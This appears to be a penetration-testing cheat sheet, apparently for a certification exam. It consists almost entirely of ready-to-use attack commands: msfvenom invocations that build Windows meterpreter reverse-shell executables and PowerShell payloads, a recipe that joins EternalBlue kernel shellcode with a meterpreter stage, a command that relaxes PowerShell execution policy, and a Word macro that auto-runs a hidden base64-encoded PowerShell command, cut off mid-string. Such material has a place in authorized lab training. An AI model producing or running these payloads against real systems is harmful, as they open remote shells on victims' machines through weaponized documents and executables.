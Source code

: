 ## Msfvenom

### Windows exe staged_payload (needs metasploit to catch, **allowed on exam**)

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=5555 -f exe > binary.exe
```

### Powershell

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.194 LPORT=5555 -f powershell
```

### Combining payloads

```sh
nasm -f bin eternalblue_x64_kshellcode.asm -o sc_x64_kernel.bin
msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o sc_x64_msf.bin LHOST=192.168.254.142 LPORT=4444
cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
```


## Windows tips & tricks

### Changing execution policy

```sh
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```

## Microsoft-word macro payload

First create an `evil.hta` file like so:

```sh
# recommended
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.194 LPORT=80 -f vba-psh > payload.txt
# or
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta 
```

Next create a new macro and copy-paste the file into the macro

Finally create a word macro and past the shell code in like so:

```vbscript
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
    Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB"
    Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A"
    Str = Str + "EYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAEg"
    Str = Str + "ANABzAEkAQQBBAEEAQQBBAEEAQQBFAEEATAAxAFgANgAyACsAY"
    Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB"
```